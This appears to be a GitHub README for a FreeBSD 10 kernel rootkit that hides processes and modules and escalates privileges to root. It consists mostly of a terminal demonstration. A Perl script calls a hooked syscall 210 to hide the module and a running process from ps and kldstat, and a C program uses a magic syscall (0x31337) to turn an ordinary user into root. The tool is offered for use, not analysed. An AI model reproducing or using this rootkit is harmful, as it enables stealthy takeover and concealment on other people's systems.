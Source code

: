 This is a small rootkit for FreeBSD 10 AMD64. Initially, it was just a POC for a rootkit I've written to test some stuff in MSR (Model Specific Registers) a long time ago but now I have added more two features in it. Now it can be used to hide a module or process and escalate the privileges to root. There's an easy way to know if this rootkit is already on the system, you just need to load the module again and the kernel will tell you if the file already exists or not.

It has been tested on FreeBSD 10.0-RELEASE AMD64.

Features:

	Hide a process
	Hide a module
	Escalate the privileges to root

Demonstration:

```
$ su
Password:
root@rootkit:/usr/home/andersonc0d3 # kldload rootkit_amd64/rk.ko
root@rootkit:/usr/home/andersonc0d3 # exit
exit
$ cd rootkit_amd64
$ cat hideme.c
int main(void){
	while(1);
	return 0;
}
$ ./hideme &
$ echo $!
985
$ ps -p 985
PID TT  STAT    TIME COMMAND
985  0  R    0:06.57 ./hideme
$ kldstat
Id Refs Address            Size     Name
 1    6 0xffffffff80200000 16314c0  kernel
 2    1 0xffffffff81a12000 2a53     uhid.ko
 3    1 0xffffffff81a15000 4b0      rk.ko
$ cat exec.pl
#!/usr/bin/perl

use strict;
use warnings;

my $a="rk";
my $b="./hideme";

# syscall(210,1)  # hook the interrupt handler
#
# syscall (210,0) # remove the hook from interrupt handler
#
# call syscall to hide a module
#

syscall(210,3,$a);

# call syscall to hide a process
#
#
syscall(210,4,$b);
$ perl exec.pl
$ ps -p 985
PID TT  STAT TIME COMMAND
$ kldstat
Id Refs Address            Size     Name
 1    6 0xffffffff80200000 16314c0  kernel
 2    1 0xffffffff81a12000 2a53     uhid.ko
$ id
uid=1001(andersonc0d3) gid=1001(andersonc0d3) groups=1001(andersonc0d3),0(wheel)
$ cat getroot.c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	
	asm("mov $0x31337,%rax");
	asm("syscall");

	return 0;
}
$ ./getroot
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
$ su
root@capsicum:/usr/home/andersonc0d3/rootkit_amd64 # kldunload rk
kldunload: can't find file rk
root@capsicum:/usr/home/andersonc0d3/rootkit_amd64 #
```
